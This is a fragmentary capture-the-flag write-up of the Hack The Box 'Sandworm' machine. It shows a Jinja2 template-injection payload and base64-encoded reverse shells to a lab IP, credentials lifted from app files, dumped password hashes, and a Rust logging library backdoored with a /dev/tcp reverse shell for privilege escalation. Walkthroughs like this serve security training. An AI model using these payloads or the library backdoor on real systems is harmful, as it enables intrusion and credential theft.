 # #1 Introduction
<img width="692" alt="image" src="https://github.com/Mate0r/app.hackthebock.com/assets/94843357/d90f6781-091a-411d-857d-83aac3e84515">

# #2 nmap

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx sandworm.htb
```

we run an nmap scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -sV -p- sandworm.htb
```

we got these open ports
```bash
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# #3 user.txt

## HTTP (port 80)


about                   [Status: 200, Size: 5584, Words: 1147, Lines: 77, Duration: 211ms]
admin                   [Status: 302, Size: 227, Words: 18, Lines: 6, Duration: 81ms]
contact                 [Status: 200, Size: 3543, Words: 772, Lines: 69, Duration: 55ms]
guide                   [Status: 200, Size: 9043, Words: 1771, Lines: 155, Duration: 73ms]
login                   [Status: 200, Size: 4392, Words: 1374, Lines: 83, Duration: 78ms]
logout                  [Status: 302, Size: 229, Words: 18, Lines: 6, Duration: 71ms]
pgp                     [Status: 200, Size: 3187, Words: 9, Lines: 54, Duration: 110ms]
process                 [Status: 405, Size: 153, Words: 16, Lines: 6, Duration: 89ms]
view                    [Status: 302, Size: 225, Words: 18, Lines: 6, Duration: 110ms]


.gpg
.asc
.sig
.key



https://www.wired.co.uk/article/efail-pgp-vulnerability-outlook-thunderbird-smime

https://efail.de/

we can use a ssti (sever side template injection) by using the RealName of the public key generated and verifying signature of message\
by using {{ 7 * 7 }} for example, we can see that the code is executed cause we have a web template engine named jinja2 (in python)\

So to get a reverse shell, we can use this crafted payload:

{{ self.__init__.__globals__.__builtins__.__import__('os').popen('which id').read() }}


rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.56 6666 >/tmp/f \
en base64 \
cm0gLWYgL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuMTAuMTUuNTYgNjY2NiA+L3RtcC9mCg== \


{{ self.__init__.__globals__.__builtins__.__import__('os').popen('echo "YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS41Ni82NjY2IDA+JjEiCg==" | base64 -d | bash').read() }}

we are now atlas\
in app.py file, we found a passphrase : $M1DGu4rD$

in the __init__.py file, we found the sql credentials : \

app.config['SECRET_KEY'] = '91668c1bc67132e3dcfb5b1a3e0c5c21' \
app.config['SQLALCHEMY_DATABASE_URI'] = 'mysql://atlas:GarlicAndOnionZ42@127.0.0.1:3306/SSA'\


to connect to sql since we don't have binaries, we can use python3 and the db module since we now it's available by looking in home/.\

```
drwxrwxr-x 23 atlas atlas  4096 Feb  2  2023 .
drwxrwxr-x  3 atlas atlas  4096 Nov 30  2022 ..
drwxrwxr-x  3 atlas atlas  4096 Feb  2  2023 backports
drwxrwxr-x  2 atlas atlas  4096 Feb  2  2023 configparser-5.3.0.dist-info
-rw-rw-r--  1 atlas atlas  1546 Feb  2  2023 configparser.py
drwxrwxr-x  4 atlas atlas  4096 Feb  2  2023 flask
drwxrwxr-x  2 atlas atlas  4096 Feb  2  2023 Flask-2.2.2.dist-info
drwxrwxr-x  3 atlas atlas  4096 Feb  2  2023 flask_login
drwxrwxr-x  2 atlas atlas  4096 Feb  2  2023 Flask_Login-0.6.2.dist-info
drwxrwxr-x  3 atlas atlas  4096 Feb  2  2023 flask_sqlalchemy
drwxrwxr-x  3 atlas atlas  4096 Feb  2  2023 Flask_SQLAlchemy-3.0.3.dist-info
-rw-rw-r--  1 atlas atlas 57134 Nov 30  2022 gnupg.py
drwxrwxr-x  5 atlas atlas  4096 Feb  2  2023 greenlet
drwxrwxr-x  2 atlas atlas  4096 Feb  2  2023 greenlet-2.0.2.dist-info
drwxrwxr-x  3 atlas atlas  4096 Feb  2  2023 markupsafe
drwxrwxr-x  2 atlas atlas  4096 Feb  2  2023 MarkupSafe-2.1.2.dist-info
drwxrwxr-x  2 atlas atlas  4096 Feb  2  2023 mysqlclient-2.1.1.dist-info
drwxrwxr-x  4 atlas atlas  4096 Feb  2  2023 MySQLdb
drwxrwxr-x  2 atlas atlas  4096 May  4  2023 __pycache__
drwxrwxr-x  2 atlas atlas  4096 Nov 30  2022 python_gnupg-0.4.3.dist-info
drwxrwxr-x 15 atlas atlas  4096 Feb  2  2023 sqlalchemy
drwxrwxr-x  2 atlas atlas  4096 Feb  2  2023 SQLAlchemy-2.0.1.dist-info
drwxrwxr-x  2 atlas atlas  4096 Feb  2  2023 typing_extensions-4.4.0.dist-info
-rw-rw-r--  1 atlas atlas 80078 Feb  2  2023 typing_extensions.py
drwxrwxr-x  8 atlas atlas  4096 Feb  2  2023 werkzeug
drwxrwxr-x  2 atlas atlas  4096 Feb  2  2023 Werkzeug-2.2.2.dist-info
```

((b'1', b'Odin', b'pbkdf2:sha256:260000$q0WZMG27Qb6XwVlZ$12154640f87817559bd450925ba3317f93914dc22e2204ac819b90d60018bc1f'),)
((b'2', b'silentobserver', b'pbkdf2:sha256:260000$kGd27QSYRsOtk7Zi$0f52e0aa1686387b54d9ea46b2ac97f9ed030c27aac4895bed89cb3a4e09482d'),)


home/atlas/.config/httpie/sessions/localhost_5000/admin.json
silentobserver:quietLiketheWind22





/sbin/init maybe-ubiquity 
2023/11/15 15:12:11 CMD: UID=0     PID=28613  | /bin/bash /root/Cleanup/clean_c.sh 
2023/11/15 15:12:11 CMD: UID=0     PID=28614  | /bin/rm -r /opt/crates 
2023/11/15 15:12:11 CMD: UID=0     PID=28615  | 
2023/11/15 15:12:11 CMD: UID=0     PID=28616  | /usr/bin/chmod u+s /opt/tipnet/target/debug/tipnet
/usr/bin/cargo run --offline 
2023/11/15 15:14:01 CMD: UID=1000  PID=28636  | /usr/bin/cargo run --offline 
2023/11/15 15:14:01 CMD: UID=1000  PID=28638  | rustc - --crate-name ___ --print=file-names --crate-type bin --crate-type rlib --crate-type dylib --crate-type cdylib --crate-type staticlib --crate-type proc-macro --print=sysroot --print=cfg                                                      
2023/11/15 15:14:01 CMD: UID=1000  PID=28640  | /usr/bin/cargo run --offline 
2023/11/15 15:14:11 CMD: UID=0     PID=28645  | /bin/bash /root/Cleanup/clean_c.sh
/bin/sh -c cd /opt/tipnet && /bin/echo "e" | /bin/sudo -u atlas /usr/bin/cargo run --offline



/opt/crates/logger/src/lib.rs is writable


extern crate chrono;

use std::fs::OpenOptions;
use std::io::Write;
use chrono::prelude::*;
use std::process::Command;

pub fn log(user: &str, query: &str, justification: &str) {
    Command::new("bash")
        .arg("-c")  
        .arg("bash -i >& /dev/tcp/10.10.15.56/6666 0>&1")
        .output()
        .expect("failed to execute process");

    let now = Local::now();
    let timestamp = now.format("%Y-%m-%d %H:%M:%S").to_string();
    let log_message = format!("[{}] - User: {}, Query: {}, Justificatio>

    let mut file = match OpenOptions::new().append(true).create(true).o>
        Ok(file) => file,
        Err(e) => {
            println!("Error opening log file: {}", e);
            return;
        }
    };

    if let Err(e) = file.write_all(log_message.as_bytes()) {
        println!("Error writing to log file: {}", e);
    }
}


https://gist.github.com/GugSaas/9fb3e59b3226e8073b3f8692859f8d25



